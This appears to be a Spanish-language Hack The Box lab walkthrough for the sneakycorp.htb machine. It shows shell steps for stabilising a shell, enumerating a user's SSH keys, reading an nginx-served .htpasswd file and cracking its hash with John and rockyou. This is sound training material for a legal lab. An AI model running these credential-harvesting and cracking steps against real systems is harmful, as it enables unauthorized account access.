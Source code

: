```{r, echo = FALSE, fig.cap="hosts dev.sneakycorp.htb", out.width="90%"}
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Descubrimiento de la maquina {-}

```bash
ls -l
cd /home
cd low
ls -la
cd .ssh
ls
cat authorized_keys
ps -fawwx
```

Vemos la flag pero no podemos leerla. Huele a que nos tenemos que convertir al usuario **low**. Tambien vemos un recurso **Pypi** con
un fichero de credenciales tipo `.htpasswd`

```cat
cat /var/www/pypi.sneakycorp.htb/.htpasswd
```

Vemos la contraseña del usuarion **pypi**. La copiamos en la maquina de atacante y tratamos de romperla con **John**

Por ultimo se puede ver un nuevo subdominio llamado `pypi.sneakycorp.htb`, lo introduzimos en el `/etc/hosts`

### Crackeo con John {-}

Copiamos el contenido del fichero .htpasswd en un fichero llamado hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Hemos podido crackear la contraseña del usuario pypi


### Descubrimiento de la configuration NGINX {-}

Intentando conectarnos a la web por el subdominio `pypi.sneakycorp.htb`, vemos que hay una redirection automatica al domino normal.
Sabiendo que estamos en frente de un **NGINX**, analizamos como el reverse proxy esta configurado.

```bash
cd /etc/nginx
ls
cd sites-enabled
cat sneakycorp.htb
cat pypi.sneakycorp.htb
```
